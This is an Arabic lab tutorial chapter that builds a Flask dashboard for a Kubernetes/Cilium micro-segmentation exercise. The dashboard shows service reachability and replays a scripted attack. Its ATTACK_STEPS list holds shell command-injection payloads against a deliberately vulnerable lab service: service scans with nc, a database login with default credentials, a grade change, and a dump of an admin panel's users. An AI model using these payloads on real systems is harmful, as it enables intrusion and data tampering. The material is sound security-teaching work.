

الفصل 7. بناء لوحة التحكم
في نهاية هذا الفصل ستكون لدينا لوحة تحكم لبقية المشروع، وهي صفحة ويب على http://localhost:5050 تعمل داخل WSL. تُظهر اللوحة هل سياسات الشبكة (Network policies) مفعّلة، وأيّ المسارات الـ 36 بين خدماتنا مفتوح، وإلى أين يصل الهجوم، وما الاتصالات التي سجّل Hubble إسقاطها (Drop). وفي الشبكة المسطحة (Flat network) التي لدينا الآن يجب أن تعرض أن 36 مساراً من 36 قابلة للوصول. نخصص لهذا الفصل أربع إلى ست ساعات على جلستين. في الأولى نكتب الواجهة الخلفية (Back end)، أي dashboard/app.py، ونختبر كل endpoint فيها من الـ terminal. وفي الثانية نكتب الصفحة dashboard/index.html ونفتحها في المتصفح.
للوحة التحكم نصفان. الواجهة الخلفية برنامج Python يؤدي العمل، فيشغّل kubectl وhubble ويرسل الطلبات إلى البوابة. أمّا الصفحة فهي ما ننظر إليه، وهي تطلب البيانات من الواجهة الخلفية. ويتخاطب الطرفان بصيغة JSON، وهي صيغة نصية للبيانات تتكون من قوائم وأزواج من الأسماء والقيم، وتشبه كثيراً القائمة أو القاموس في Python. وكل عنوان تستقبل عليه الواجهة الخلفية الطلبات، مثل /api/matrix، يسمى endpoint، وكل endpoint دالة واحدة في Python.
الخطوة 1. كتابة dashboard/app.py
تضم الواجهة الخلفية كل أمر تشغّله لوحة التحكم. وكتابتها أولاً تسمح لنا باختبار كل جزء من الـ terminal قبل أن يكون لصفحة الويب أي دور، فإذا فشل شيء عرفنا في أي جانب نبحث.
في Ubuntu terminal ننشئ المجلد ونفتح ملفاً جديداً في VS Code.
mkdir -p ~/microseg/dashboard
code ~/microseg/dashboard/app.pyينشئ mkdir -p المجلد dashboard داخل مشروعنا، ويفتح code الملف الجديد في VS Code.
ما يجب أن نراه: يفتح VS Code تبويباً فارغاً اسمه app.py، ولا يظهر أي ناتج في الـ terminal. نلصق الملف الآتي، ونحفظه بـ Ctrl+S، ونتأكد من ظهور LF في شريط الحالة.
# Dashboard for the micro-segmentation lab. Run in WSL: python app.py
# Then open http://localhost:5050 in the Windows browser.
import os
import subprocess
from concurrent.futures import ThreadPoolExecutor
import requests
from flask import Flask, jsonify, send_file
app = Flask(__name__)
PORTAL = "http://127.0.0.1:30080" # the NodePort, the same door the attacker uses
POLICY_DIR = os.path.expanduser("~/microseg/k8s/policies")
SOURCES = ["frontend", "news", "api", "auth", "db", "admin", "ops"]
TARGETS = [("frontend", 80), ("news", 5000), ("api", 8080), ("auth", 5001), ("db", 5432), ("admin", 5002)]
PSQL = "PGCONNECT_TIMEOUT=3 PGPASSWORD=postgres psql -h db -U postgres -d campus"
SCAN = "nc -zv -w 2 frontend 80; nc -zv -w 2 api 8080; nc -zv -w 2 auth 5001; nc -zv -w 2 db 5432; nc -zv -w 2 admin 5002"
# (step name, text sent in the "url" field, text in the answer that proves the step worked)
ATTACK_STEPS = [
("1. T1190 exploit the image checker", "x; id; hostname", "uid="),
("2. T1046 discover and scan services", "x; env | grep SERVICE_PORT= | sort; " + SCAN, "succeeded"),
("3. T1078.001 log in to db with the default account",
"x; " + PSQL + " -c 'SELECT id, username, full_name FROM students'", "(4 rows)"),
("4. T1565.001 change Omar's grade",
"x; " + PSQL + " -c 'UPDATE grades SET grade = 95 WHERE id = 3' -c 'SELECT * FROM grades WHERE id = 3'",
"UPDATE 1"),
("5. reach the admin panel and dump users", "x; curl -sS --max-time 3 http://admin:5002/users", "password_hash"),
]
def run(command):
"""Run a command given as a list of words. Return everything it printed."""
result = subprocess.run(command, capture_output=True, text=True, timeout=120)
return result.stdout + result.stderr
def probe_from(source):
"""Inside the source pod, try a TCP connect to every other service (all at once, 2 s limit)."""
lines = []
for name, port in TARGETS:
if name != source:
lines.append(f"(timeout 2 bash -c 'echo > /dev/tcp/{name}/{port}' 2>/dev/null; echo {name}=$?) &")
lines.append("wait")
output = run(["kubectl", "-n", "campus", "exec", "deploy/" + source, "--", "bash", "-c", "\n".join(lines)])
row = {}
for line in output.splitlines():
if "=" in line:
name, code = line.strip().split("=", 1)
if code == "0":
row[name] = "open" # connected
elif code == "124":
row[name] = "blocked" # no answer in 2 s, Cilium dropped it
else:
row[name] = "refused" # fast "no": nothing listening, or DNS error
return row
@app.get("/")
def index():
return send_file("index.html")
@app.get("/api/status")
def status():
policies = []
for word in run(["kubectl", "-n", "campus", "get", "ciliumnetworkpolicies", "-o", "name"]).split():
if word.startswith("ciliumnetworkpolicy"):
policies.append(word.split("/")[1])
pods = run(["kubectl", "-n", "campus", "get", "pods", "-o", "wide"])
return jsonify({"policies": policies, "pods": pods})
@app.post("/api/policies/<action>")
def policies(action):
if action == "apply":
output = run(["kubectl", "apply", "-f", POLICY_DIR])
else:
output = run(["kubectl", "delete", "-f", POLICY_DIR, "--ignore-not-found"])
return jsonify({"output": output})
@app.get("/api/matrix")
def matrix():
# Probe all 7 sources at the same time: about 3 s instead of about 20 s.
with ThreadPoolExecutor(max_workers=len(SOURCES)) as pool:
rows = list(pool.map(probe_from, SOURCES))
result = {}
open_paths = 0
total_paths = 0
for source, row in zip(SOURCES, rows):
result[source] = row
total_paths += len(row)
open_paths += list(row.values()).count("open")
target_names = [name for name, port in TARGETS]
return jsonify({"sources": SOURCES, "targets": target_names, "matrix": result,
"open": open_paths, "total": total_paths})
@app.post("/api/attack")
def attack():
results = []
for name, payload, proof in ATTACK_STEPS:
try:
answer = requests.post(PORTAL + "/news/check-image", data={"url": payload}, timeout=60)
output = answer.text
except requests.RequestException as error:
output = "request failed: " + str(error)
results.append({"step": name, "success": proof in output, "output": output})
return jsonify(results)
@app.get("/api/drops")
def drops():
output = run(["hubble", "observe", "--namespace", "campus", "--verdict", "DROPPED", "--last", "20"])
return jsonify({"output": output})
if __name__ == "__main__":
app.run(host="127.0.0.1", port=5050, threaded=True)نتجاهل python app.py المذكور في أول تعليق في الملف. فالخطوة 3 تعطينا الأمر الذي يعمل فعلاً.
الإعدادات: أعلى الملف
تجلب أسطر الاستيراد الأدوات التي يستخدمها الملف. تشغّل subprocess برامج أخرى، مثل kubectl، وتقرأ ما تطبعه. وتشغّل ThreadPoolExecutor عدة مهام في الوقت نفسه. وترسل requests طلبات HTTP، ومن Flask تأتي jsonify، التي تحوّل قاموساً أو قائمة في Python إلى إجابة بصيغة JSON، وsend_file، التي تجيب بملف من القرص.
PORTAL = "http://127.0.0.1:30080" # the NodePort, the same door the attacker uses
POLICY_DIR = os.path.expanduser("~/microseg/k8s/policies")
SOURCES = ["frontend", "news", "api", "auth", "db", "admin", "ops"]
TARGETS = [("frontend", 80), ("news", 5000), ("api", 8080), ("auth", 5001), ("db", 5432), ("admin", 5002)](1) PORTAL هو port الـ NodePort للخدمة frontend. يرسل زر الهجوم طلباته إليه، فتدخل البوابة من الطريق نفسه الذي تدخل منه طلبات المهاجم القادمة من Windows.
(2) POLICY_DIR هو المجلد الذي سنضع فيه ملفات السياسات في الفصل 10. وتحوّل os.path.expanduser الرمز ~ إلى مجلد المنزل الحقيقي، لأن Python لا تفعل ذلك وحدها.
(3) تسرد SOURCES الـ Pods السبعة التي ينطلق منها الفحص، وتسرد TARGETS كائنات Service الستة مع الـ ports الخاصة بها. وops مصدر وليست هدفاً، لأنه لا Service لها.
وتحت الإعدادات تضم القائمة ATTACK_STEPS خطوات الفصل 8 الخمس. لكل مدخل ثلاثة أجزاء: اسم، والنص الذي يُرسل في الحقل url في أداة فحص الصور، وقطعة نص لا تظهر في الإجابة إلا إذا نجحت الخطوة. ويشرح الفصل 8 كل payload.
تشغيل أمر: run()
def run(command):
"""Run a command given as a list of words. Return everything it printed."""
result = subprocess.run(command, capture_output=True, text=True, timeout=120)
return result.stdout + result.stderrتشغّل run برنامجاً وتعيد كل ما طبعه. يصلها الأمر قائمةً من كلمات منفصلة، مثل ["kubectl", "-n", "campus", "get", "pods"]، فتسلّم subprocess.run هذه الكلمات إلى البرنامج مباشرة من دون صَدَفة (Shell) بينهما. وهذا عكس الخلل الموجود في apps/news.py، الذي يلصق النص في سطر أوامر ويسلّمه إلى الصَّدَفة، ومعه ;. أمّا هنا فإن ; في أحد المعاملات يصل إلى kubectl محرفاً عادياً. يجمع capture_output=True ما يطبعه البرنامج بدلاً من أن يذهب إلى الـ terminal، ويعيده text=True نصاً، ويتوقف timeout=120 عن الانتظار بعد دقيقتين كي لا يجمّد أمرٌ عالق لوحةَ التحكم. ويضم السطر الأخير الناتج العادي إلى ناتج الأخطاء، فنرى رسائل الخطأ في الصفحة أيضاً.
الفحص من داخل الـ Pod: probe_from()
من هذه الدالة تُبنى مصفوفة قابلية الوصول (Reachability matrix). فهي تحاول، انطلاقاً من Pod مصدر واحد، أن تفتح اتصال TCP مع كل Service آخر في الوقت نفسه، ثم تبيّن أيّ الاتصالات نجح.
def probe_from(source):
"""Inside the source pod, try a TCP connect to every other service (all at once, 2 s limit)."""
lines = []
for name, port in TARGETS:
if name != source:
lines.append(f"(timeout 2 bash -c 'echo > /dev/tcp/{name}/{port}' 2>/dev/null; echo {name}=$?) &")
lines.append("wait")
output = run(["kubectl", "-n", "campus", "exec", "deploy/" + source, "--", "bash", "-c", "\n".join(lines)])
row = {}
for line in output.splitlines():
if "=" in line:
name, code = line.strip().split("=", 1)
if code == "0":
row[name] = "open" # connected
elif code == "124":
row[name] = "blocked" # no answer in 2 s, Cilium dropped it
else:
row[name] = "refused" # fast "no": nothing listening, or DNS error
return row(1) تبني الحلقة سطر bash واحداً لكل هدف وتتخطى المصدر نفسه. فإذا كان المصدر news والهدف db كان السطر الناتج (timeout 2 bash -c 'echo > /dev/tcp/db/5432' 2>/dev/null; echo db=$?) &.
(2) /dev/tcp/db/5432 ليس ملفاً حقيقياً. فحين يرى bash إعادة توجيه إلى مسار بهذا الشكل يفتح بدلاً من ذلك اتصال TCP مع المضيف db على الـ port 5432. ويكتب echo > سطراً فارغاً في ذلك الاتصال، فلا ينجح الأمر إلا إذا انفتح الاتصال.
(3) يوقف timeout 2 المحاولة بعد ثانيتين. وحين يضطر إلى إيقافها يخرج بالرمز 124. ورمز الخروج هو الرقم الذي يتركه البرنامج عند انتهائه، 0 للنجاح وأي رقم آخر لنوع من الفشل، ويحفظ bash آخر رمز خروج في $?. يطبع echo db=$? اسم الهدف وذلك الرمز. ويُخفي 2>/dev/null رسائل الخطأ التي يطبعها bash نفسه، فالرمز يقول كل ما تحتاج إليه لوحة التحكم.
(4) تجمع الأقواس المحاولة وecho في وحدة واحدة، ويشغّل & في آخرها هذه الوحدة في الخلفية. لذلك تعمل المحاولات الخمس أو الست كلها في وقت واحد، وينتظر سطر wait في النهاية حتى تنتهي جميعها.
(5) يلصق "\n".join(lines) الأسطر في سكربت صغير واحد، ويشغّل kubectl -n campus exec deploy/<source> -- bash -c ذلك السكربت داخل Pod تابع للـ Deployment المصدر.
(6) يقرأ النصف الثاني الإجابة سطراً سطراً. الرمز 0 يعني أن الاتصال انفتح، فتكون الخلية open. والرمز 124 يعني أن أحداً لم يُجب خلال ثانيتين. وهكذا يبدو إسقاط الاتصال على يد Cilium من جهة المرسل، لأن الـ packet المُسقطة لا تتلقى أي رد على الإطلاق، فتكون الخلية blocked. أمّا أي رمز آخر فيعني «لا» سريعة، كأن يكون هناك Service لا يقف خلفه أي Pod جاهز، فتكون الخلية refused.
الـ endpoints / و/api/status
@app.get("/")
def index():
return send_file("index.html")
@app.get("/api/status")
def status():
policies = []
for word in run(["kubectl", "-n", "campus", "get", "ciliumnetworkpolicies", "-o", "name"]).split():
if word.startswith("ciliumnetworkpolicy"):
policies.append(word.split("/")[1])
pods = run(["kubectl", "-n", "campus", "get", "pods", "-o", "wide"])
return jsonify({"policies": policies, "pods": pods})بالسطر @app.get("/") يربط Flask الـ endpoint بدالة، فطلب GET إلى / يشغّل index، وهي تجيب بالملف index.html. وGET نوع من طلبات HTTP يقرأ فقط، أمّا POST فنوع يرسل شيئاً أو يغيّر شيئاً.
تشغّل /api/status أمرين من أوامر kubectl. الأول يسرد السياسات في campus بأسمائها، بالشكل ciliumnetworkpolicy.cilium.io/default-deny، وتُبقي الحلقة الجزء الذي بعد /. والثاني يجلب جدول الـ Pods نفسه الذي طبعناه في الفصل 6. والإجابة كائن JSON فيه حقلان، policies وpods.
الـ endpoint /api/policies/<action>
@app.post("/api/policies/<action>")
def policies(action):
if action == "apply":
output = run(["kubectl", "apply", "-f", POLICY_DIR])
else:
output = run(["kubectl", "delete", "-f", POLICY_DIR, "--ignore-not-found"])
return jsonify({"output": output})<action> في الـ endpoint جزء متغير من المسار. فطلب POST إلى /api/policies/apply يشغّل الدالة وقيمة action فيها "apply"، فتطبّق كل ملف في مجلد السياسات دفعة واحدة. وأي كلمة أخرى، مثل remove، تحذف الكائنات التي تصفها تلك الملفات، ويجعل --ignore-not-found الأمر يسكت عن السياسات غير الموجودة. وتستخدم الـ endpoints هاتان POST لأنهما تغيّران الـ cluster. والإجابة تحمل كل ما طبعه kubectl.
الـ endpoint /api/matrix
@app.get("/api/matrix")
def matrix():
# Probe all 7 sources at the same time: about 3 s instead of about 20 s.
with ThreadPoolExecutor(max_workers=len(SOURCES)) as pool:
rows = list(pool.map(probe_from, SOURCES))
result = {}
open_paths = 0
total_paths = 0
for source, row in zip(SOURCES, rows):
result[source] = row
total_paths += len(row)
open_paths += list(row.values()).count("open")
target_names = [name for name, port in TARGETS]
return jsonify({"sources": SOURCES, "targets": target_names, "matrix": result,
"open": open_paths, "total": total_paths})خيط التنفيذ خط عمل مستقل داخل برنامج واحد. تفحص ThreadPoolExecutor المصادر السبعة كلها بالتوازي، بسبعة عمّال يوزّع عليهم pool.map(probe_from, SOURCES) العمل. فتستغرق المصفوفة كلها نحو مدة أبطأ Pod بدلاً من مجموع مدد السبعة. وعند تجربة هذا الدليل استغرقت نحو 1.2 ثانية. ثم تأتي الحلقة لتعدّ. يجمع total_paths عدد الأهداف التي جرّبها كل مصدر، وهو 36 إذا أجابت الـ Pods السبعة كلها، ويعدّ open_paths الخلايا التي عادت بالقيمة open.
الـ endpoint /api/attack
@app.post("/api/attack")
def attack():
results = []
for name, payload, proof in ATTACK_STEPS:
try:
answer = requests.post(PORTAL + "/news/check-image", data={"url": payload}, timeout=60)
output = answer.text
except requests.RequestException as error:
output = "request failed: " + str(error)
results.append({"step": name, "success": proof in output, "output": output})
return jsonify(results)لكل خطوة من الخطوات الخمس يرسل requests.post الـ payload إلى /news/check-image عبر NodePort في حقل نموذج اسمه url، وهو الطلب نفسه الذي يرسله نموذج فحص الصور وأوامر PowerShell في الفصل 8. ويمنح timeout=60 الخطوة البطيئة مهلة تصل إلى دقيقة. وتُحسب الخطوة ناجحة إذا ظهر نص إثباتها في الإجابة، مثل UPDATE 1 حين تتغير الدرجة. وإذا فشل الطلب نفسه يدخل الخطأ في الناتج وتُحسب الخطوة فاشلة.
الـ endpoint /api/drops وبدء التشغيل
@app.get("/api/drops")
def drops():
output = run(["hubble", "observe", "--namespace", "campus", "--verdict", "DROPPED", "--last", "20"])
return jsonify({"output": output})
if __name__ == "__main__":
app.run(host="127.0.0.1", port=5050, threaded=True)تطلب /api/drops من Hubble آخر 20 تدفقاً شبكياً (Flow) في campus أُسقطت. يُبقي --verdict DROPPED التدفقات المحجوبة فقط، ويُبقي --last 20 أحدث 20 منها. وتصل أداة hubble إلى Hubble Relay، وهو جزء Cilium الذي يجمع التدفقات من كل الـ nodes، عبر النفق الذي فتحناه في الفصل 4 بالأمر cilium hubble port-forward. ويجب أن يبقى هذا النفق عاملاً كلما استخدمنا قسم الإسقاطات في لوحة التحكم، والخطوة 7 تتحقق منه.
يشغّل السطران الأخيران خادم الويب على الـ port 5050. ويجعله host="127.0.0.1" يستمع على جهازنا فقط، فلا يستطيع أحد غيرنا على شبكة Wi-Fi نفسها الوصول إليه. وهذا مقصود. فهذه الصفحة تستطيع حذف سياساتنا وليس فيها تسجيل دخول، وهو الخطأ نفسه الذي في لوحة الإدارة، ولا ينبغي أن يستخدمها إلا حاسوبنا. ويجعل threaded=True الخادم يستجيب لعدة طلبات في وقت واحد، فتبقى الصفحة مستجيبة أثناء فحص المصفوفة.
الخطوة 2. التحقق من أن app.py يُترجَم (Compile)
إزاحة خاطئة أو علامة اقتباس ضائعة تمنع تحميل الملف كله. وترجمته البرمجية الآن تكشف هذا النوع من الأخطاء في ثانية واحدة، قبل أن نجد أنفسنا نقرأ تقرير أخطاء Python في terminal لوحة التحكم.
~/microseg/.venv/bin/python -m py_compile ~/microseg/dashboard/app.py && echo "app.py compiles"~/microseg/.venv/bin/python هو مفسّر Python الموجود داخل البيئة الافتراضية التي أنشأناها في الفصل 3. والبيئة الافتراضية نسخة خاصة من Python لها مكتباتها الخاصة، وفي بيئتنا هذه Flask وrequests. يقرأ -m py_compile الملف ويحوّله إلى الشكل الداخلي الذي تفهمه Python من دون أن يشغّله. ولا يشغّل && الأمر echo إلا إذا نجحت الترجمة البرمجية.
ما يجب أن نراه: سطر واحد.
يجب أن يكون السطر app.py compiles. وتنشئ Python أيضاً مجلداً اسمه __pycache__ بجانب الملف، وGit يتجاهله.
إذا ظهر شيء آخر
Sorry: IndentationError: unexpected indent (/home/<user>/microseg/dashboard/app.py, line 12)إذا ظهرت هذه الرسالة فأحد الأسطر مُزاح أكثر من الأسطر المحيطة به. يظهر اسم مستخدمنا في Linux مكان <user>، ويظهر موجّه الأوامر (Prompt) التالي على السطر نفسه لأن الرسالة لا تنتهي بسطر جديد. واسم الملف ورقم السطر بين القوسين في آخر السطر. نقارن إزاحة ذلك السطر بالملف في هذا الدليل، ونتذكر أن Python تعدّ المسافات، فقد يبدو السطر صحيحاً وهو مزاح بمسافة واحدة.
SyntaxError: unterminated f-string literal (detected at line 44)إذا ظهرت هذه الرسالة فإحدى علامتي الاقتباس المزدوجتين في سطر lines.append الطويل داخل probe_from ضاعت أثناء اللصق. ننسخ ذلك السطر مرة أخرى من الدليل.
الخطوة 3. تشغيل لوحة التحكم
لوحة التحكم برنامج يظل يعمل حتى نوقفه. نشغّلها في الـ terminal المفتوحة أمامنا الآن، فتصبح هذه الـ terminal بعدها مخصصة للوحة، ونفتح terminal ثانية لكل ما عدا ذلك.
cd ~/microseg/dashboard && ../.venv/bin/python app.pyينقلنا cd ~/microseg/dashboard إلى مجلد لوحة التحكم. و.. تعني المجلد الأعلى بمستوى واحد، لذلك فإن ../.venv/bin/python هو مفسّر Python الخاص بالبيئة الافتراضية، وهو نفسه الذي استخدمناه في الخطوة 2، وapp.py هو الملف الذي يشغّله. نشغّل لوحة التحكم دائماً بهذا الأمر حرفياً.
ما يجب أن نراه: بضعة أسطر من Flask، ثم لا يعود موجّه الأوامر.
السطر الذي نبحث عنه هو Running on http://127.0.0.1:5050. أمّا سطر WARNING فيقول إن الخادم المدمج في Flask غير مخصص لموقع عام. ولصفحة لا يصل إليها إلا حاسوبنا فهو مناسب. ولا يعود موجّه الأوامر لأن الخادم ينتظر الطلبات، وكل طلب نرسله من الآن فصاعداً يطبع هنا سطراً واحداً فيه الطلب ورمز حالته، وهو 200 في العادة.
نترك هذه الـ terminal مفتوحة. ونفتح Ubuntu terminal ثانية بالطريقة التي فتحنا بها الأولى، ونشغّل فيها كل أوامر بقية هذا الفصل. ولإيقاف لوحة التحكم لاحقاً ننقر داخل الـ terminal الخاصة بها ونضغط Ctrl+C. وبعد كل إعادة تشغيل لـ Windows أو Ubuntu، وبعد كل تعديل على app.py، نشغّلها من جديد بالأمر نفسه.
إذا ظهر شيء آخر
ModuleNotFoundError: No module named 'flask'إذا ظهرت هذه الرسالة فقد شُغّل الملف بالأمر python3 التابع للنظام، وهو لا يحوي Flask. فنظام Ubuntu يحمي نسخته من Python من المكتبات الإضافية، ولهذا وضع الفصل 3 مكتبة Flask في البيئة الافتراضية. نشغّل لوحة التحكم بالأمر المذكور أعلاه حرفياً.
Address already in use
Port 5050 is in use by another program. Either identify and stop that program, or start the server with a different port.إذا ظهرت هذه الرسالة فلوحة التحكم تعمل أصلاً، وغالباً في terminal نسيناها. نجد تلك الـ terminal ونضغط فيها Ctrl+C، أو نوقف كل النسخ بـ pkill -f "python app.py"، ثم نشغّلها من جديد.
Command 'python' not found, did you mean:إذا ظهرت هذه الرسالة فقد كُتب python app.py، وهو الأمر المذكور في أول تعليق في الملف. ولا يوجد في Ubuntu أمر اسمه python. نستخدم الأمر السابق، فهو يسمّي مفسّر Python الخاص بالبيئة الافتراضية بمساره.
الخطوة 4. اختبار endpoint الحالة
نختبر كل endpoint وحدها قبل أن تستخدمها الصفحة. يجلب curl الـ endpoint، وتجعل jq الإجابة مقروءة. وjq أداة سطر أوامر للتعامل مع JSON، ثبّتناها في الفصل 3. إذا أعطيناها . وحدها طبعت JSON بإزاحة مرتبة، وإذا أعطيناها مُرشِّحاً (Filter) اختارت الجزء الذي نطلبه.
نشغّل الأوامر الآتية في الـ terminal الثانية.
curl -s localhost:5050/api/status | jq '{policies: .policies}'يرسل curl -s localhost:5050/api/status طلب GET إلى endpoint الحالة، ويُخفي -s شريط التقدم في curl. ويُبقي jq '{policies: .policies}' الحقل policies وحده، لأن جدول الـ Pods في الحقل الآخر طويل.
ما يجب أن نراه: كائن فيه قائمة فارغة.
{
"policies": []
}تعني "policies": [] أنه لا توجد كائنات سياسات، وهذا يوافق الشبكة المسطحة ورسالة No resources found التي رأيناها في الفصل 6.
والآن الحقل الآخر.
curl -s localhost:5050/api/status | jq -r .podsيختار .pods الحقل pods، ويطبعه -r نصاً عادياً بدلاً من سلسلة JSON بين علامتي اقتباس، فتظهر نهايات الأسطر أسطراً جديدة فعلاً.
يجب أن نرى جدول الـ Pods من الفصل 6، وقد طبعه kubectl من داخل لوحة التحكم.
يجب أن تكون الـ Pods السبعة كلها 1/1 Running، وfrontend وnews على kind-worker. وهذا يثبت أن لوحة التحكم تستطيع تشغيل kubectl والوصول إلى الـ cluster عندنا.
إذا ظهر شيء آخر
إذا لم يظهر شيء على الإطلاق وعاد موجّه الأوامر فالسبب أن لوحة التحكم لا تعمل. فمع -s يبقى curl صامتاً حتى حين يعجز عن الاتصال، والإجابة الفارغة تعني ذلك. ننظر إلى الـ terminal الأولى، فإن كان موجّه الأوامر قد عاد فيها نشغّل لوحة التحكم من جديد كما في الخطوة 3.
jq: parse error: Invalid numeric literal at line 1, column 10إذا ظهرت هذه الرسالة فلوحة التحكم أجابت بصفحة خطأ بدلاً من JSON، لأن كود Python في الـ endpoint انهار. ننظر في terminal لوحة التحكم. وتقرير التتبع هو الكتلة التي تطبعها Python عند الانهيار، ويبدأ بـ Traceback (most recent call last):، وسطره الأخير يسمّي الخطأ. فظهور FileNotFoundError: [Errno 2] No such file or directory: 'kubectl' يعني أن البرنامج لا يجد kubectl. ننقر داخل terminal لوحة التحكم ونضغط Ctrl+C لإيقافها، ثم نشغّل which kubectl هناك. فإن لم يطبع شيئاً نعود إلى تثبيت kubectl في الفصل 3. وإن طبع مساراً نشغّل لوحة التحكم من جديد بأمر الخطوة 3 من الـ terminal نفسها، ونكرر أمر curl.
الخطوة 5. تشغيل فحص واحد يدوياً
يجب أن يبدأ كل فحص من داخل الـ Pod المصدر، لأن Cilium يتحقق من الاتصال عند واجهة الشبكة (Network interface) في الـ Pod الذي يخرج منه، كما يبيّن الشكل 6. وkubectl exec هو وسيلتنا لتشغيل أمر هناك.


نلاحظ في الشكل 6 أن Cilium يفرض السياسة على واجهة الشبكة في كل Pod، لذلك يُحكم على الاتصال بحسب الـ Pod الذي يخرج منه والـ Pod الذي يصل إليه.
نشغّل فحصاً واحداً يدوياً لنرى ما تفعله probe_from لخلية واحدة، من news إلى db.
kubectl -n campus exec deploy/news -- bash -c "timeout 2 bash -c 'echo > /dev/tcp/db/5432'"; echo "exit code $?"يشغّل kubectl -n campus exec deploy/news -- ما يليه داخل Pod تابع لـ news. ويسلّم bash -c "..." النص الذي بين علامتي الاقتباس المزدوجتين إلى bash داخل الـ Pod، فيحاول الاتصال بمهلة قدرها ثانيتان. ثم يعيد kubectl رمز الخروج لذلك الأمر إلى WSL، ويطبعه echo "exit code $?".
ما يجب أن نراه: سطر واحد.
تعني exit code 0 أن news فتحت اتصال TCP بـ port قاعدة البيانات، وهو أول ما يحتاج إليه المهاجم في الفصل 8. وبعد الفصل 10 سيستغرق الأمر نفسه ثانيتين، ويطبع command terminated with exit code 124 ثم exit code 124، لأن Cilium يُسقط الاتصال قبل أن يصل إلى db.
إذا ظهر شيء آخر
error: unable to upgrade connection: container not found ("news")إذا ظهرت هذه الرسالة فمعنى ذلك أن Pod الخدمة news يُستبدل في هذه اللحظة. ننتظر حتى يُظهره kubectl -n campus get pods بالحالة 1/1 Running، ثم نشغّل الفحص مرة أخرى.
إذا عاد exit code 1 من دون انتظار الثانيتين فمعنى ذلك أن شيئاً ما أجاب «لا» فوراً، وهذا يحدث حين لا يكون Pod الخدمة db جاهزاً، فلا يجد الـ Service الخاص به مكاناً يرسل إليه الاتصال. نفحص ذلك الـ Pod بالأمر kubectl -n campus get pods.
الخطوة 6. اختبار endpoint المصفوفة
على الـ endpoint هذه تعتمد نقطة التحقق. فهي تشغّل فحص الخطوة 5 على المسارات الـ 36 كلها.
time curl -s localhost:5050/api/matrix | jq -c '{open, total}'يقيس time أمام أي أمر المدة التي استغرقها. ويُبقي jq -c '{open, total}' العددين ويطبعهما على سطر واحد، فالخيار -c يعني الشكل المضغوط.
ما يجب أن نراه: العددان، ثم التوقيت.
{"open":36,"total":36}
real 0m1.191s
user 0m0.004s
sys 0m0.009sيجب أن يكون السطر الأول {"open":36,"total":36}، أي أن كل مسار قابل للوصول، وهذا هو معنى الشبكة المسطحة. وسطر real هو الوقت الذي انتظرناه، نحو 1.2 ثانية على الحاسوب الذي جُرّب عليه هذا الدليل، وسيختلف قليلاً على حاسوبنا. نتجاهل سطري user وsys. ويذكر التعليق في app.py رقماً تقريبياً هو نحو 3 ثوانٍ، وهو الحد الأعلى الذي يمكن أن نتوقعه.
والآن ننظر إلى الخلايا نفسها.
curl -s localhost:5050/api/matrix | jq -c '.matrix'يختار .matrix جدول الخلايا. ومع -c يخرج على شكل سطر واحد طويل.
يجب أن نرى مجموعة واحدة لكل Pod مصدر.
{"admin":{"api":"open","auth":"open","db":"open","frontend":"open","news":"open"},"api":{"admin":"open","auth":"open","db":"open","frontend":"open","news":"open"},"auth":{"admin":"open","api":"open","db":"open","frontend":"open","news":"open"},"db":{"admin":"open","api":"open","auth":"open","frontend":"open","news":"open"},"frontend":{"admin":"open","api":"open","auth":"open","db":"open","news":"open"},"news":{"admin":"open","api":"open","auth":"open","db":"open","frontend":"open"},"ops":{"admin":"open","api":"open","auth":"open","db":"open","frontend":"open","news":"open"}}يرتب Flask الأسماء أبجدياً، لذلك تأتي المجموعات بالترتيب admin، api، auth، db، frontend، news، ops. كل القيم "open". وفي كل مجموعة خمسة أهداف لأن المصدر لا يُفحص مقابل نفسه. أمّا ops ففي مجموعتها ستة أهداف، لأنها ليست هدفاً فلا تتخطى شيئاً. ست مجموعات في كل منها خمسة أهداف، مع أهداف ops الستة، تساوي 36.
إذا ظهر شيء آخر
إذا ظهرت {"open":0,"total":0} فكل فحص فشل قبل أن يبدأ، ولم يعد أي سطر من أي Pod. نشغّل فحص الخطوة 5 يدوياً، فهو يُظهر الخطأ الذي يعطيه kubectl. وأكثر خطأين نتوقع أن نصادفهما هما الآتيان.
The connection to the server 127.0.0.1:37645 was refused - did you specify the right host or port?معنى هذه الرسالة أن الـ cluster متوقف، وغالباً بعد إعادة تشغيل Windows، وسيختلف رقم الـ port على الشاشة. نشغّل الـ nodes كما في الخطوة 1 من الفصل 6.
Error from server (NotFound): deployments.apps "news" not foundومعنى هذه الرسالة أن البوابة غير منشورة، أو أن الـ namespace campus اختفت. نشغّل bash ~/microseg/deploy.sh. وبعد أيٍّ من الإصلاحين نكرر طلب المصفوفة.
إذا كان total أقل من 36، مثل {"open":30,"total":30} حين يغيب الـ Pod الخاص بـ ops، فالسبب أن Pod مصدراً لم يُجب، فخرج صفه كله من العدّ. نبحث عن Pod ليس بالحالة 1/1 Running بالأمر kubectl -n campus get pods.
